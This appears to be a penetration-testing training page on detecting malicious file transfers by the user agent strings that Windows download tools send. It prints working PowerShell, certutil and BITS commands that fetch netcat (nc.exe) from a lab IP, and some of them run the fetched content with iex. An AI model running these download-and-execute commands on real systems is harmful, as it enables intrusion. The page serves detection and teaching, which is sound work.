 # Detection
- [Detection](#detection)
    - [**Invoke-WebRequest - Client**](#invoke-webrequest---client)
    - [**Invoke-WebRequest - Server**](#invoke-webrequest---server)
    - [**WinHttpRequest - Client**](#winhttprequest---client)
    - [**WinHttpRequest - Server**](#winhttprequest---server)
    - [**Msxml2 - Client**](#msxml2---client)
    - [**Msxml2 - Server**](#msxml2---server)
    - [**Certutil - Client**](#certutil---client)
    - [**Certutil - Server**](#certutil---server)
    - [**BITS - Client**](#bits---client)
    - [**BITS - Server**](#bits---server)

Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting on any unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common `HTTP` transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

### **Invoke-WebRequest - Client**

```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

### **Invoke-WebRequest - Server**

```
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### **WinHttpRequest - Client**

```powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);PS C:\htb> $h.send();PS C:\htb> iex $h.ResponseText
```

### **WinHttpRequest - Server**

```
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### **Msxml2 - Client**

```powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);PS C:\htb> $h.send();PS C:\htb> iex $h.responseText
```

### **Msxml2 - Server**

```
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### **Certutil - Client**

```
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

### **Certutil - Server**

```
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### **BITS - Client**

```powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;PS C:\htb> $r=gc $env:temp\t;PS C:\htb> rm $env:temp\t; PS C:\htb> iex $r
```

### **BITS - Server**

```
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.